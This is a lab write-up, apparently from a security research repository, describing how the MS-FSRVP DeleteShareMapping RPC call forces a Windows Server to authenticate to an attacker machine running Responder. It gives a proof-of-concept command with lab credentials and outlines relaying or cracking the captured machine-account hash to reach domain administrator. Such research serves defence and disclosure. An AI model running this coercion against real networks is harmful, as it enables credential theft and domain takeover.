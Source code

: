 # MS-FSRVP - Remote call to DeleteShareMapping (opnum 11)

## Summary

+ **Protocol**: [[MS-FSRVP]: File Server Remote VSS Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b)

+ **Protocol UUID**: a8e0653c-2744-4389-a61d-7373df8b2292

+ **Protocol version**: 1.0

+ **SMB Named pipe**: `\\pipe\FssagentRpc`

+ **Function name**: [`DeleteShareMapping`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/1884e614-bdff-4e7f-a5d0-c27048a3f733)

+ **Function operation number**: `11`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\\pipe\FssagentRpc` and bind to the desired [`MS-FSRVP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b) protocol (with uuid `a8e0653c-2744-4389-a61d-7373df8b2292` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-FSRVP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\\pipe\FssagentRpc` This pipe is connected to the protocol [[MS-FSRVP]: File Server Remote VSS Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b) and allows to call RPC functions of this protocol. We will then call the remote [`DeleteShareMapping`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/1884e614-bdff-4e7f-a5d0-c27048a3f733) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
DeleteShareMapping('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
DWORD DeleteShareMapping(
         [in] handle_t hBinding,
         [in] GUID ShadowCopySetId,
         [in] GUID ShadowCopyId,
         [in] [string] LPWSTR ShareName);
```

## References

+ Documentation of protocol [MS-FSRVP]: File Server Remote VSS Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b

+ Documentation of function `DeleteShareMapping`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/1884e614-bdff-4e7f-a5d0-c27048a3f733